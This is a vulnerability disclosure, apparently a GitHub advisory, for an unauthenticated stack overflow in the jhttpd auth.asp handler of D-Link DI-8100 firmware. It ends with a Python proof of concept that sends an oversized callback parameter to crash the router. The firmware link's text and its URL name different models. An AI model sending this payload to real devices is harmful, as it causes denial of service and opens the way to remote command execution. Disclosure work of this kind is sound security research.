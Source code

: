 ## Affected version 

DI-8100-16.07.26A1 

## Vulnerability details 

The DI-8100 is D-Link's wireless broadband router designed for small to medium network environments. The jhttpd program has a binary vulnerability that an attacker can exploit without authorization to cause denial of service or command execution.

Firmware download address：[https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8100](https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8300)



1、In the auth_asp function of the jhttpd file, the callback parameter is controllable, and when both usr and pwd are empty, it will be copied to v65 with sprintf resulting in stack overflow, which can result in denial of service or even command execution



![image-20250320232318721](/Users/fizzl/Library/Application Support/typora-user-images/image-20250320232318721.png)

2、The url interface corresponding to the function is auth.asp, and it can be accessed without login (the page authorization logic needs to follow the jhttpd program initialization module for analysis), that is, attackers can exploit the vulnerability without authorization

3、As shown in the figure, through simulation debugging in the virtual machine, it is found that the return address can be successfully overwritten and the jump can be controlled. Theoretically, the command execution effect can be achieved by constructing the rop chain.

![image-20250320232432130](/Users/fizzl/Library/Application Support/typora-user-images/image-20250320232432130.png)

verify：

Using the simulated FirmAE tool, tool address: https://github.com/pr0v3rbs/FirmAE

![image-20250320232532558](/Users/fizzl/Library/Application Support/typora-user-images/image-20250320232532558.png)



4、poc

```python
import requests  
 
payload = b'a'*0x816 + b"ABCD"

command_url = f"http://192.168.0.1/auth.asp?callback={payload}"  
command_headers = {  "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",  "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",  "Accept-Language": "en-US,en;q=0.5",  "Accept-Encoding": "gzip, deflate, br",  "Connection": "close",  "Upgrade-Insecure-Requests": "1"  
}  
  
response = requests.get(command_url, headers=command_headers)  
 
print(response.text)  
```

